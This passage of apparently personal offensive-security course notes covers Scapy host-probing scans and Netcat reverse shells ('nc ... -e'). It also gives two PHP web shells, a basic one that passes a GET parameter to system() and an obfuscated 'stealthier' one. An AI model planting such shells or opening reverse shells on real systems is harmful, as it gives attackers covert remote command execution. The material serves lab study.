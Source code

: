 [Read the docs for more info.](https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/sending_recieving/index.html)

### Probing hosts with ICMP and TCP SYN packets.

We can combine some of what we've learned to make a "scanner" from scrap.

```python
probe = IP(dst="192.168.1.0/24")/ICMP() 
ans, unans = sr(probe)
ans.summary(lambda s,r: r.sprintf('IP: %IP.src% is up.'))
```

```python
tcp_probe = IP(dst="google.com")/TCP(dport=443, flags=S)
ans, unans = sr(tcp_probe)
ans.summary(lambda s,r: r.sprintf('IP: %IP.src% is up'))
# s is for the packets we've sent, and r is for the responses we got. that's why we use %IP.src% instead of %IP.dst%.
# if we were to use %IP.dst%, we'd get our own IP. this applies to almost all packets AFAIK
```

[More on packet inspection](https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/inspecting_packets/index.html)

## Shells

### Reverse shells

C3SA teaches how to establish a reverse shell using Netcat. On the attacker machine we can run `nc -nlvp {port}` and on the
Metasploitable machine we can run `nc {ip} {port} -e {exec}` to establish a reverse session. 

There are many other ways to create reverse shells. We could use Metasploit, Hoaxshell, pure TCP socket shell, Python, and
many other ways. But I'd like to share how I often create and use reverse shells.

I enjoy creating PHP shells. They're extremely versatile and very powerful, even the most basic implementations of it, at
least in my opinion. The one I go for more often is the following:

```php
<?php 
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
}
?>
```

Stealthier ones can be created, like the following:

```php
<?php
$_=$_POST['1'];
$__=$_POST['2'];
$_($__);
?>
```
